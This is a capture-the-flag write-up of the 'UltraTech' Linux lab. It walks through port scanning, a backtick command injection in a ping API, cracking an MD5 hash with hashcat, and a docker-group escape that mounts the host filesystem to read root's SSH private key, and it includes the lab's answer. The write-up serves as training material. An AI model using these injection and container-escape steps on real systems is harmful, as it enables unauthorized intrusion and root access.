


# UltraTech

This lab's focus is to train my Privilege Escalation skills in Linux. Let's start!

### Nmap Enumeration

```
nmap -A -p- <ip>
```

> PORT      STATE SERVICE VERSION
> 21/tcp    open  ftp     vsftpd 3.0.3
> 22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
> | ssh-hostkey: 
> |   2048 dc668985e705c2a5da7f01203a13fc27 (RSA)
> |   256 c367dd26fa0c5692f35ba0b38d6d20ab (ECDSA)
> |_  256 119b5ad6ff2fe449d2b517360e2f1d2f (ED25519)
> 8081/tcp  open  http    **Node.js Express framework**
> |_http-title: Site doesn't have a title (text/html; charset=utf-8).
> |_http-cors: HEAD GET POST PUT DELETE PATCH
> 31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
> |_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
> |_http-server-header: Apache/2.4.29 (Ubuntu)
> Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Great, FTP, SSH and two HTTP ports are open.

### HTTP Port 31331

Running gobuster i found the /js folder with the api.js file:



This tells us we can try to run the ping command using the other HTTP server.

### HTTP Port 8081

Before conducting this experiment let's run gobuster.



Ping makes sense, auth does not provide us with much to go on.


We can run ping commands, let's try to escape using backticks.

```
127.0.0.1;`ls`
```

We can see from the output that a `utech.db.sqlite` file exists.


This contains a user and a hash:

```
hashid 'hash'
```

Says its probably md5 so:

```
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
```

We got credentials! `r00t:n100906`.

### Privilege Escalation

Now that we are logged in we can see that we are running `docker` and that current user is part of thee `docker` group by running the `id` command or running LinEnum.sh for example.

We can check for what images exists using:

```
docker images
```

All we have to do now is launch the image and get root:

```
docker run -it -v /:/host/ bash chroot /host/ bash
# or
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

Congrats!

```
cat /root/.ssh/id_rsa
```

**Question** What are the first 9 characters of the root user’s private SSH key?

> MIIEogIBA
